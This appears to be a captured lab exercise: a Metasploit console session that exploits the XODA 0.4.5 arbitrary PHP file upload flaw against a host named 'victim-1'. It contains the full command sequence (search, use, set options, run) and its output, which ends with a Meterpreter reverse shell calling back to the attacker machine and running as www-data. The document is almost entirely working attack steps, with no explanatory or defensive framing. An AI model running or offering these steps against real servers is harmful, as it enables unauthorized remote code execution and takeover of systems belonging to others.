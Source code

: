 ```
msf5 > search XODA

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability
```

```
msf5 > use exploit/unix/webapp/xoda_file_upload
msf5 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.119.191.3    yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
TARGETURI => /
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > run

[*] Started reverse TCP handler on 192.119.191.2:4444 
[*] Sending PHP payload (AzjyziIjOSYjJ.php)
[*] Executing PHP payload (AzjyziIjOSYjJ.php)
[*] Sending stage (38247 bytes) to 192.119.191.3
[*] Meterpreter session 1 opened (192.119.191.2:4444 -> 192.119.191.3:36698) at 2023-02-09 03:11:00 +0000
[!] Deleting AzjyziIjOSYjJ.php

meterpreter > sysinfo
Computer    : victim-1
OS          : Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
```
